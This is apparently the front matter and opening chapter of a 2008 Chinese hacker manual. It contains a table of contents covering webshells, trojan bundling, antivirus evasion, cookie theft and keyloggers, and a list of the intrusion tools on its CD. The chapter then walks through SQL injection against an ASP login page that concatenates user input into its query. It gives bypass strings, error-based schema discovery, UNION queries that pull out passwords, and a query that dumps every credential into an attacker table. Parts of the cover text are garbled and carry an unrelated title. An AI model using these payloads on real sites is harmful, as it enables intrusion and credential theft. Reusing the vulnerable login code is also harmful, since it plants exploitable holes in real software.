# 资深黑客渗透黑幕

# 漏洞显著，关注趋势

隐密 Hack 内幕中的黑客手世故！也被推崇折于推见格折炼会其系统不设防经典手法书上传实破技术……（小字说明，部分难辨）

### 超 PPB 篇
## 黑客 CD
## 黑客 Tools 精选
### 全专家渗透内幕答疑

资深编辑推荐最佳黑客优秀读物

Hack 世界的是非纷争  
攻城掠寨的 Hack 利器  
后窟所思的攻击套路  
www.nohack.cn


￥32 元（附赠全年 NO 黑客期刊）


ISBN 978-7-900452-68-9



# 泛函分析基础习题精选

彭超 PPB

非安全·黑客手册 出品

# 作者简介

**网名：**PPB  
**姓名：**彭超

国内资深职业黑客，曾在“黑客在线”“黑客防线”等黑客技术平台从事网络安全技术咨询工作，实践过大量友情安全检测及渗透测试活动，在从事技术咨询及渗透测试中积累了丰富的经验和敏锐的思路。

> 本书是作者这些年的心得总结，他将其中的一些常见技术和思路，以及学习网络安全技术中需要掌握的必备技术，进行了完整展示。可以说，这是一本对学习网络安全技术感兴趣的朋友们的随身宝典。

通过此书的学习，大家可以对网络渗透技术有一个完整的立体概貌，不会像一些黑客教学网站的那些“xx会员”，学得如雾里看花、盲人摸象，浪费了时间不说，还消耗了价格不菲的学费和有限的精力。

本书用最精典（精彩+经典）的案例让读者掌握最精典的技术，这是作者写作本书的立题宗旨，并希望此书能成为渴望学习网络安全技术的朋友们学习道路上的良师益友。

- 出品人：非安全
- 本书作者：彭超 PPB
- 编辑：Python LCX、空气、浪迹天涯、眼镜猴
- 特约编辑：风飘雨、小迷、XApache、张宇
- 平面规划：陈黎黎
- 网站：www.nohack.cn
- 网站编辑：空气
- 版权声明：图文版权所有，未经同意，不得转载。
- 投稿信箱：nohack@21cn.com
- 邮购查询：hope_wym@sina.com
- 光盘信箱：CD@nohack.cn


# 前言

彭超 PPB

经过四个多月的努力，这本书终于完成了。书稿完成的那天，我去餐馆点了桌菜大吃一顿，以犒劳自己，并滋补一下因几乎每天熬夜写稿快要垮掉的身体。书中是我这几年来从事网络安全所得经验的小小总结，相信会给渴望了解网络安全技术的朋友们一些帮助。

从几年前因为偶然的机会和可笑的理由接触到网络安全至今，一直走过来的路并不平顺。回顾自己几年来走过的路，曾经满怀疑惑、曾经幼稚无知、曾经劳而无果、曾经大起大落……当年和我一起学习的 QQ 群里面数百个朋友没有一个还在了。在一年前偶然相遇曾经初学时常向其请教问题的“高手”，谈话中他以无比惊诧的声音说：“不会吧？你还在玩这个？还当成职业？”

**——是的，我还在。**

书中介绍的技术好像是冷冰冰的，并不像在这份前言中写得这般自我。书中记载的是经过思考、理解、消化，并尝试取得的成功。斗胆用个比喻——如同枯燥的战斗记录背后所代表的那一场场惊心动魄。

书中所载是曾经的往事，而现在是把这些“故事”讲给读者听。书中的某些技术可能让您觉得一时还无法理解，不妨换个角度去理解浸透这本书背后的绝对真理——那被大多人说得似乎有点恶俗的两个字：坚持。那么你肯定会看懂那些技术，并且有一天你会拥有自己的故事。

希望读者能以正确的心态来对待网络安全技术，它不是你用来炫耀留名的工具。真正的高手深深藏在幕后，出现在前台闹得最欢的只是跳梁小丑，以简单的技术“出名”的想法更是可笑。

健康的心态应该是把网络安全技术作为养成善于学习这一好习惯的切入点，是在成年后走出校园仍能继续拥有一副保持思考乐趣头脑的智力游戏。

而友情测试和渗透实践的成功，只是你知识水平的试金石，和鼓励你继续往更深领域探索下去的动力。重复利用已经掌握的知识去获得成功，从而去证明自己，这种行为是最无聊的。

**学习的乐趣不在于你获得了多少知识，更在于你发现了多少知识。**真诚期待读者以本书为起点，不满足于已经掌握的知识，不断地发散和完善自己的知识链，并一次次勇敢地把已经掌握的知识抛到脑后，去迎接新的挑战。

**相信我，你会拥有一切！**亲爱的读者们，且以本书作为出发点，开始迎接挑战吧！GO!

后记：十分感谢母亲，在十多年前家里经济十分拮据的情况下给我买了电脑并使我能上网，否则我不会有现在的一切。

2008.8

# 目录

# 第一章 数据库入侵相关技术

- 1. SQL 注入是怎么回事？
- 2. 常用的数据库有哪几种？都存在注入漏洞吗？
- 3. 如何灵活地检测注入点？
- 4. ACCESS 注入点如何利用？
- 5. 如何向数据库插入木马得到 WEBSHELL？
- 6. 如果过滤了“AND =”，还能否注入？
- 7. 什么叫联合查询？
- 8. MYSQL 注入点如何利用？
- 9. MYSQL 注入能不能直接导出 WEBSHELL？
- 10. 如何使用 MSSQL 查询分析器？
- 11. MSSQL2000 有哪几种对应权限？
- 12. 怎样通过注入点执行系统命令？
- 13. 我有一个 SA 权限注入点，各种通过注入点执行命令的方法都试过了，但无法成功，这是为什么？
- 14. 手工 MSSQL 数据库注入如何获取表段和字段内容？
- 15. 如何备份数据库得到一个 WEBSHELL？
- 16. 如何通过注入点备份 LOG 得到一个 WEBSHELL？
- 17. 如何进行反弹注入？
- 18. 如何通过 MSSQL 获得服务器相关情况？
- 19. 搜索型注入应该如何查找及利用？

# 第二章 常见问题答疑解惑

- 1. 灰鸽子中提到要使用 WEB 空间，请问什么是空间？需要收费吗？怎样才能拥有和使用空间？
- 2. 我在内网中，电脑会被“黑”吗？
- 3. 有什么方法能在只知道一个电脑 IP 的情况下，对它进行入侵呢？
- 4. 黑客文章里常说的“擦屁股”“清除痕迹”是怎么回事？
- 5. 据说黑客有手段能刷 QB 和钻石服务及游戏点卡之类的，这是真的吗？如何实现的？
- 6. 什么是 WEBSHELL？它是做什么的？
- 7. 要如何开始学习黑客技术呢？
- 8. 什么是 CMD？如何使用它？
- 9. 什么是 DDoS 攻击？
- 10. 什么是域名？
- 11. 什么是 IPC 连接？
- 12. 黑客活动违法吗？我该怎样进行黑客技术的实践呢？
- 13. 什么是脚本？
- 14. 经常提到的“权限”是什么？
- 15. 为什么有的网站程序文件是 PHP 后缀，有的是
- 16. 什么是挂马？
- 17. ADSL 路由器中的桥接模式和路由模式是怎么回事，有什么区别？
- 18. WEB 木马、网页木马、远程控制木马、后门木马有什么区别？
- 19. 什么是 ARP 欺骗？
- 20. 常见的服务与端口绑定的有哪些？
- 21. 键盘记录工具和盗号木马的使用与功能有何不同？
- 22. 有没有办法快速安装 MYSQL、PHP 和 APACHE 支持程序？
- 23. 哪些是入侵中最常用的 CMD 命令？

# 第三章 黑客入侵常用技巧

- 1. 如何制作“万能捆绑”？
- 2. 怎么通过常见社会工程学手段猜解重要信息？
- 3. 怎么用 Editor 入侵网站？
- 4. 怎么进行 URL 欺骗？
- 5. 怎么利用程序快捷方式插入木马？
- 6. 我得到了网站的 BBS 数据库地址，在主站上也得到了一个注点，怎么利用？
- 7. 如果网站安装有信息检测系统该怎么突破？
- 8. 怎么能时刻获得网站的数据库实际地址？
- 9. 有没有办法能用 NBSI 等工具跑 COOKIE 注入的注点？
- 10. 如何操作 Linux 主机？
- 11. 我通过账号密码进入了一个网站的后台，下面我能做什么呢？
- 12. 什么是抓包上传？
- 13. 所谓的嗅探是怎么回事？
- 14. 如何破解邮箱？
- 15. 如何进行反向连接？
- 16. 怎样打开 3389 远程终端服务？
- 17. 什么是图片木马？
- 18. 什么是本地提交？
- 19. 如何做一名 GOOGLE 黑客？
- 20. 如何进行旁注入侵？
- 21. 如何后台备份数据库得到一个 WEBSHELL？
- 22. 一个经典的 COOKIE 欺骗进入后台的例子
- 23. 怎么使用一句话木马？
- 24. 如何在 URL 中跳转目录？
- 25. 命令行下如何设置计算机网络？
- 26. 如何使用命令行添加服务？
- 27. 如何盗取 COOKIE？
- 28. 能否利用 Windows 相关工具帮助入侵？
- 29. 如何设置 VPN？
- 30. 怎么利用 MDB 数据库来隐藏 ASP 木马？
- 31. 如何利用 Serv-U 提升权限？
- 32. 如何利用 PCANYWHERE 提升权限？

### 第四章 安全性能分析及处理

- 1. 我安装了杀毒软件和防火墙，并且随时更新，为什么我还是会中木马？
- 2. 我的 QQ 号被盗了，有没有什么办法能找回？
- 3. 我游戏账号总是被盗，请问怎么回事？我该怎样防止账号被盗呢？
- 4. 我中了木马，应该怎么清除呢？
- 5. 我是一家网站的维护人员，怎样才能避免我的网站被黑呢？……169
- 6. 什么是组策略？它有什么作用？……171
- 7. 听说有手工查杀木马的方法，是如何操作的？……174
- 8. 网站被入侵后如何清除黑客留下的后门？……179
- 9. 怎样使用综合类安全防护工具？……181
- 10. 服务器如何防范 WEBSHELL？……183
- 11. 没有条件安装防火墙和杀毒软件，如何尽力防护计算机安全？……184
- 12. 黑客是怎么让我的卡巴斯基过期的？……187

# 第五章 入侵过程常见问题

- 1. 我找到了 Serv-U，为什么不能提升权限？……191
- 2. 怎么突破防外部提交？……193
- 3. 我的 WEBSHELL 总是被经验丰富的管理员发现并删除，有没有更隐蔽的放置 WEBSHELL 的方法？……195
- 4. 为什么我通过小马上传文件总是失败？……196
- 5. SA 权限注入点无法建管理员账号，也无法备份 WEBSHELL 时该怎么办？……198
- 6. 为什么肉鸡上运行着远程桌面服务，可是却无法连接到对方的远程桌面？……200
- 7. 我使用啊 D 攻击器 IPC 连接上了一台有漏洞的电脑，为什么在复制文件时提示出错？……202
- 8. 怎样防止自己的木马被查杀呢？……204
- 9. 我用 3389 登录对方电脑的远程桌面后，他会发现吗？我操作他的电脑会影响到他用鼠标和键盘控制电脑吗？……206
- 10. 所谓的“穿越防火墙”技术是如何实现的？……207
- 11. 为什么在 WINDOWS2003 下上传总是失败？……209
- 12. 下载得到的数据库却没有密码，该怎么打开？……211
- 13. 暴出管理员密码后却是加密的，该怎么得到未加密的明文？……213
- 14. 如果过滤了单引号如何注入？……214
- 15. 如果 XP CMDSHELL 被删除了，无法执行命令该怎么办？……216
- 16. 手把手教你制作个人的简单黑页……218

# 第六章 黑客工具实战技巧

- 1. 黑客常用的有哪些工具，能推荐几种吗？……225
- 2. 怎样查到我 QQ 好友的 IP 地址甚至是具体位置呢？……229
- 3. 我使用端口扫描器扫描了很多 IP 段，为什么一个端口都没有扫到？……231
- 4. 我在外网中，为什么鸽子也不能上线？……235
- 5. 怎么在我的 ADSL 路由器里设置端口映射？……237
- 6. 怎么样给软件脱壳或加壳？……239
- 7. 如何使用溢出工具包 metasploit？……240
- 8. 如何安装虚拟机软件？……246
- 9. 在修改木马防杀操作中如何定位特征码？……250
- 10. 怎么把木马和其它程序捆绑？……254
- 11. 如何进行跳转修改法防杀？……256
- 12. 如何使用 X-Scan 扫描器？……260
- 13. 怎么让没有代理功能的软件也能使用代理？……264
- 14. 如何用“代理超人”扫描代理？……265
- 15. 如何使用 radmin？……267
- 16. 如何使用啊 D 自动攻击器？……270
- 17. 我不会使用 PCSHARE，能教教我吗？……273
- 18. 如何使用 FXP 方便地管理自己的 WEB 空间？
- 19. 怎么使用端口转发工具 LCX？……279
- 20. 如何使用键盘记录器？……280
- 21. 如何使用 C/S 木马？……282
- 22. 网络瑞士军刀 NC 的多种使用方法……287

# 光盘目录



# 第一章 数据库入侵相关技术

- 4、ACCESS 注入点如何利用？
  - ACCESS 速查字符转换工具
- 9、MYSQL 注入能不能直接导出 WEBSHELL？
  - 多功能编码转换工具
- 11、MSSQL2000 有哪几种对应权限？
  - NBSI
- 15、如何备份数据库得到一个 WEBSHELL？
  - SQL 注入学习帮助小工具——16 进制转换工具

### 第二章 常见问题答疑解

- 2、我在内网中，电脑会被“黑”吗？
  - 流光 5
- 4、黑客文章里常说的“擦屁股”“清除痕迹”是怎么回事？
  - IIS 日志清除工具
  - SQLogClear（SQL 日志清除）

# 第三章 黑客入侵常用技巧

- 1、如何制作“万能捆绑”？
  - winrar
- 4、怎么进行 URL 欺骗？
  - 相关代码
- 7、如果网站安装有信息检测系统怎么突破？
  - 相关代码
- 8、怎么能时刻获得网站的数据库实际地址？
  - 相关代码
- 9、有没有办法能用 NBSI 等工具跑 COOKIE 注入的注点？
  - 注入中转站
- 12、什么是抓包上传？
  - WSockExpert 抓包
  - NC
  - WINHEX
- 13、所谓的嗅探是怎么回事？
  - XSniff 嗅探工具
- 14、如何破解邮箱？
  - 渊雪
- 16、怎样打开 3389 远程终端服务？
  - 开 3389 代码
- 20、如何进行旁注入侵？
  - DOMAIN
- 26、如何使用命令行添加服务？
  - 添加服务测试代码
- 27、如何盗取 COOKIE？
  - 盗 COOKIE 接收端 ASP 和 PHP 代码

### 第四章 安全性能分析及处理

- 1、我安装了杀毒软件和防火墙，并且随时更新，为什么我还是会中木马？
  - windows 清理助手
- 7、听说有手工查杀木马的方法，是如何操作的？
  - 注册表及系统自启动查看器
- 8、网站被入侵后如何清除黑客留下的后门？
  - 睿克网站长助手
- 9、怎样使用综合类安全防护工具？
  - 木马清道夫

# 第五章 入侵过程常见问题

- 1、我找到了 Serv-U，为什么不能提升权限？
  - Serv-U 提权综合工具
- 8、怎样防止自己的木马被查杀呢？
  - 多种常见加壳工具：
  - ASPack 加壳
  - MaskPE
  - PECompact
  - petite2.3 GUI
  - UPX 压缩和解压器
  - 仙剑
  - [MSLRH]v0.31a
  - Hying's PE-Armor0.75
  - 网络休闲庄专用加壳程序 F1 修改版
  - PEncrypt4
- 11、为什么在 WINDOWS2003 下上传总是失败？
  - 突破上传 200K 限制
  - 文件切割合并器

# 第六章 黑客工具实战技巧

- 1、黑客常用的有哪些工具，能推荐几种吗？
  - 文中提到的几种工具：
  - arpsniffer
  - Servu 提权
  - SuperScanV4.0-RHC
  - nc
  - UltraEdit-32
- 2、怎样看到我 QQ 好友的 IP 地址甚至是具体位置呢？
  - 传美版 QQ2008
- 7、如何使用溢出工具包 metasploit？
  - 溢出工具包 metasploit3.0
- 8、如何安装虚拟机软件？
  - Virtual PC
  - VMware Workstation
- 9、在修改木马防杀操作中如何定位特征码？
  - 特征码定位工具 CCL
- 10、怎么把木马和其它程序捆绑？
  - 超级捆绑机
- 11、如何进行跳转修改法防杀？
  - PEDITOR
  - ollybg
- 12、如何使用 X-Scan 扫描器？
  - X-Scan-v3.3 中文版
- 13、怎么让没有代理功能的软件也能使用代理？
  - SKSCOCK
- 14、如何用“代理超人”扫描代理？
  - 代理超人
- 15、如何使用 radmin？
  - radmin 中文版
- 16、如何使用啊 D 自动攻击器？
  - 啊 D 自动攻击器
- 17、我不会使用 PCSHARE，能教教我吗？
  - pcshare 木马
- 18、如何使用 FXP 方便地管理自己的 WEB 空间？
  - FXP 中文版
- 19、怎么使用端口转发工具 LCX？
  - LCX
- 20、如何使用键盘记录器？
  - 简易键盘记录器
- 21、如何使用 C/S 木马？
  - 雪克图 C/S 木马

### 22、网络瑞士军刀 NC 的多种使用方法

完整版 NC








# 第一章 数据库入侵相关技术

## 数据库黑客编程宝典

- MS SQL 注入能不能直接导出 WEBSHELL？
- 如何通过注入点备份 LOG 得到一个 WEBSHELL？
- MSSQL 2000 与 2005 在注入利用上有哪些对应权限差异？
- 如何进行反弹注入？
- 常用的数据库有哪几种？都存在注入漏洞吗？
- 如何灵活地构造注入点？

提到 SQL 注入，很多人会马上联想到“拖库”“导出 WebShell”等操作。但在实际渗透中，注入点权限、数据库版本、服务账号权限、系统配置差异都会显著影响利用方式。

如果是 MSSQL，探测服务器物理信息、判断数据库版本、确认数据库账户权限等步骤非常关键；常见做法包括报错注入、联合查询，以及在可写条件下通过日志或其他通道实现命令执行。

我有一个 SA 权限注入点，各种注入命令均测试通过，但无法执行系统命令，这是什么原因？通常需要进一步确认 SQL Server 服务账号权限、扩展存储过程状态与目标系统安全策略。

SQL 注入是怎么回事？如何备份数据库并导出一个 WebShell？

# 第一章 数据库入侵相关技术

- 1. SQL 注入是怎么回事？
- 2. 常用的数据库有哪几种？都存在注入漏洞吗？
- 3. 如何灵活地检测注入点？
- 4. ACCESS 注入点如何利用？
- 5. 如何向数据库插入木马得到 WEBSHELL？
- 6. 如果过滤了 “AND =”，还能否注入？
- 7. 什么叫联合查询？
- 8. MYSQL 注入点如何利用？
- 9. MYSQL 注入能不能直接导出 WEBSHELL？
- 10. 如何使用 MSSQL 查询分析器？
- 11. MSSQL 2000 有哪几种对应权限？
- 12. 怎样通过注入点执行系统命令？
- 13. 我有一个 SA 权限注入点，各种通过注入点执行命令的方法都试过了，但无法成功，这是为什么？
- 14. 手工 MSSQL 数据库注入如何获取表段和字段内容？
- 15. 如何备份数据库得到一个 WEBSHELL？
- 16. 如何通过注入点备份 LOG 得到一个 WEBSHELL？
- 17. 如何进行反弹注入？
- 18. 如何通过 MSSQL 获得服务器相关情况？
- 19. 搜索型注入应该如何查找及利用？

## 1 SQL 注入是怎么回事？

在现今的网络中，许多网站都采用数据库来存储各种资料，而在各类型的数据库中，又以 MSSQL 数据库和 ACCESS 数据库最为流行。现在主流的网站入侵手法也是针对这两种数据库的，被称为 SQL Injection（数据库注入）技术。因此本书将会用较大的篇幅介绍一下这种攻击的原理和要点。

一般程序设计员在存取数据库时，往往是利用 ASP、PHP 等脚本语言结合用户输入组成 SQL 语句，然后再传递给相关的数据库系统执行，用以建立/删除数据库结构，赋予或移除使用权限等。因为与数据库相关的所有操作都是遵循 SQL 命令的。

所以，通过这种方式可以很方便地完成各种资料维护工作，但也正因为 SQL 语言无所不能，导致稍有漏洞就会让黑客有机可乘。

下面我们采用 ASP 网站结构搭配 MS SQL Server 做一个示范，希望能使读者对 SQL Injection 的入侵方式有个基本的认识。

先建立一个一般网站会员登录页面所需要连接到的数据库表，如下：  
tblUser 表中包含 UserID、UserName、Password、Pri 等几个字段。

```sql
CREATE TABLE [tblUser] (
  [UserID] [int] IDENTITY (1, 1) NOT NULL,
  [UserName] [nvarchar] (50) NOT NULL,
  [Password] [nvarchar] (50) NOT NULL,
  [Pri] [tinyint] NULL CONSTRAINT [DF_tblUser_Pri] DEFAULT (0),
  CONSTRAINT [PK_tblUser] PRIMARY KEY CLUSTERED ([UserID])
)
```

我们在表中先插入数据，如插入了用户 Admin 密码 AdminPass 和用户 norjack 密码 norjackPass 两组数据。

```sql
INSERT tblUser(UserName, Password, Pri) VALUES ('Admin', 'AdminPass', 10)
INSERT tblUser(UserName, Password, Pri) VALUES ('norjack', 'norjackPass', 10)
```

登录页面的代码如下：

```asp
<%
If Request("UserName")<>"" And Request("Pass")<>"" Then
  Dim cnn,rec,strSQL
  Set cnn=Server.CreateObject("ADODB.Connection")
  With cnn
    .ConnectionString=Application("Conn")
    .Open

    strSQL="SELECT * FROM tblUser WHERE UserName='" & _
      Request("UserName") & "' AND Password='" & Request("Pass") & "'"
    Set rec=.Execute(strSQL)
  End With

  If NOT rec.EOF Then
    Session("UserName")=Request("UserName")
    Response.Write "登录成功 " & Request("UserName")
  Else
    Response.Write "您的账号/密码错误"
  End If
Else
%>
<Form action="login.asp">
用户名: <Input Name="UserName"><P>
密码: <Input Name="Pass">
<P>
<Input type="submit" Value="确定">
</Form>
<%
End If
%>
```

以上代码保存成 ASP 网页，通过浏览后可以利用 ASP 代码来组合查询使用者账号、密码的 SQL 查询语法，逻辑相当简单。如数据库中存在符合的账号、密码记录，则回传的 Recordset 的 EOF 属性是 False，该使用者就算正确登录。针对这种网页，我们以下就开始利用 SQL Injection 的技巧来“黑”这个网站吧！

在需要输入使用者账号的地方输入 `Admin' --`，而密码栏随便乱输，这对于会被执行的整句 SQL 没有什么关系，如图 1 所示。

我们根据登录页面代码表中的内容构建出提交到 SQL 的语句，将会发现实际传递给 SQL Server 的语法是：

```sql
SELECT * FROM tblUser WHERE UserName='admin' --' AND Password='asdf'
```


图 1

关键是原先的 AND 子句被“--”标识成了注释，这样 SQL Server 仅仅执行：

```sql
SELECT * FROM tblUser WHERE UserName='admin'
```

自然，如果有该用户存在，则这个 SQL 查询语法就传回该记录的所有字段内容，再按照登录页面代码的判断方式：传回的 Recordset 是否有记录，若有就算登录验证成功，则黑客就可以轻易地以该用户的身份成功登录了。

用未知的用户名登录：若没有已知的账号，可以在用户名输入框中输入 `' or 1=1--`，SQL Server 所接收的整句语法变成：

```sql
SELECT * FROM tblUser WHERE UserName='' or 1=1--' AND Password='asdf'
```

因为输入的是 `' or 1=1`，则不管之前的条件是什么，只要某个条件为真，整个判断就都为真，因此回传的 Recordset 记录包含了全部的会员记录，也导致登录代码中的 Recordset 的 EOF 属性为 False，从而成功登录。这也就是所谓“万能登录密码”的由来。

### 1. 利用错误回显入侵

#### 1. 获得字段数量及名称

微软为了方便 ASP 的程序开发人员可以顺利地查找错误，因此每当 Script 执行错误时，都通过 `%systemroot%\WINNT\Help\iisHelp\common\500-100.asp` 脚本将发生错误的原因传回到浏览器。对于开发者来说，这是一个非常方便的错误查找方式，但黑客也可以利用这个错误信息取得原始 ASP 中的查询语法，并从中了解数据库中表的结构。

例如在用户名位置输入：`' HAVING 1=1--` 时系统会传回如图 2 所示的错误信息。于是我们可以故意制造出错，从错误信息中寻找我们感兴趣的东西。


很明显我们可以利用错误信息来了解数据库大致结构。再次从图 3 的错误信息中可知，查询的表中还有 UserName 这个字段，因此可以输入 `GROUP BY UserID,UserName HAVING 1=1--` 来继续查询。



图 3

利用上述方式取到完整查询语法后，也就是说输入以下的语法，但不再造成执行时出现错误。

```sql
GROUP BY UserID,UserName,Password,Pri HAVING 1=1--
```

因为整个查询到 SQL Server 的语法变成：

```sql
SELECT * FROM tblUser WHERE UserName='' GROUP BY UserID,UserName,Password,Pri HAVING 1=1--' AND Password='asd'
```

这样就列出了所有字段，语法完全正确表示所有的字段名都已经包含在其中了，黑客就此可以大致估计数据库的结构。在输入用户名的地方执行以下语句便可以加入自定义的用户到数据库中。

```sql
INSERT INTO tblUser Values('hacker','hacker',10)--
```

### ② 获取用户的账号密码

利用这个技巧，还可以再进一步获取用户的账号和密码，例如用以下语法查询账号：

```sql
UNION SELECT UserName,1,1,1 FROM tblUser WHERE UserName>'a'--
```

出现 IIS 返回信息：“将 nvarchar 'admin' 值转换为数据类型为 int 的列时发生语法错误”。因为上述查询语句回传 SQL 的记录 “Admin” 是 nvarchar 格式，而通常 union 对应到原先 int 数据栏位，因此就出现了以上的错误信息。由以上的错误信息可以得知有一个名为“Admin”的账号存在，之后再使用下列语句获得该账号的密码，错误回显信息如图 4 所示。

```sql
UNION SELECT Password,1,1,1 FROM tblUser WHERE UserName='admin'--
```



图 4

之后再继续输入下列语句来获得其他人的账号密码，回显信息如图 5 所示：

```sql
UNION SELECT UserName,1,1,1 FROM tblUser WHERE UserName>'admin'--
```


图 5

依次替换掉 `WHERE UserName>` 的条件内容，就可以取得数据库中所有的账号和密码组合。黑客甚至可以通过以下语法将所有用户的账号密码连接成字串，比如在用户名输入框输入如下的 SQL 语句。

```sql
'; DECLARE @str VARCHAR(8000) SET @str='@'
SELECT @str=@str+' / '+UserName+' / '+Password FROM tblUser WHERE UserName>@str
SELECT @str AS iDPass INTO tblHacker--
```

以上语句中，先声明一个长度为 8000 的字符串变量 @str，再将整个 tblUser 表中的内容组成一个字符串放到变量 @str 之内，最后再利用 `SELECT ... INTO ...` 语法把 @str 变量的内容放到自建的表 tblHacker 之中。

